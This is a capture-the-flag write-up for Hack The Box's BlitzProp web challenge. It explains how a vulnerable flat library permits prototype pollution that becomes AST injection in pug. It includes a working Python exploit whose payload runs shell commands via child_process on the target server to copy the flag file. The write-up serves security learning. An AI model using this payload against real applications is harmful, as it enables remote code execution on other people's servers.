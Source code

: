 ```yaml
---
slug: blitzprop-cyberapocalypse-2021-ctf
title: BlitzProp - Cyberapocalypse 2021 CTF
description: This is a writeup for the BlitzProp challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the BlitzProp challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

A tribute page for the legendary alien band called BlitzProp!

<!-- truncate -->

### Recon

We're provided with the source code for a cute webpage, which allows us to vote for some song names using an input field.

By looking at the song names we're supposed to vote for, we could potentially notice some hints like **Polluting** and **AST**.

The site seems to be running on a `node` environment with an `express` server, so we can check out the routes handling file.

```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

		console.log(req.body)
		console.log(unflatten(req.body))

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

Looking closely, we see that the `/api/submit` POST endpoint uses a module called `flat` to unflatten a request body into json. The code also uses `pug` for templating.

We can check the versions of these libraries in the `package.json` file.

```json
"dependencies": {
    "express": "^4.17.1",
    "flat": "5.0.0",
    "pug": "^3.0.0"
}
```

The version of flat used seems to be vulnerable to prototype pollution, and we can find information on the payloads we can use [here](https://blog.p6.is/AST-Injection/#Example-1), finding an example exploiting `pug`.

### Solution

By having the exploit at hand, we can write a simple script which will send a POST request with the required `song.name` in the data, as well as with our payload.

The payload itself will allow us to do _Remote Code Execution_. More to the point, we will cat the flag file into the publically available `/static/js` folder, so we can navigate to it after the pollution exploit.

```python
import requests

TARGET_URL = 'http://46.101.44.190:32262'

# make pollution
r=requests.post(TARGET_URL + '/api/submit', json = {
    "song.name":"The Goose went wild",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('cat flag* > static/js/main.js')"
    }
})
# execute
requests.get(TARGET_URL)
print(r.text)
```

Now that we have executed our command, we simply go ahead and curl that flag file, and find our flag

```
CHTB{p0llute_with_styl3}
```
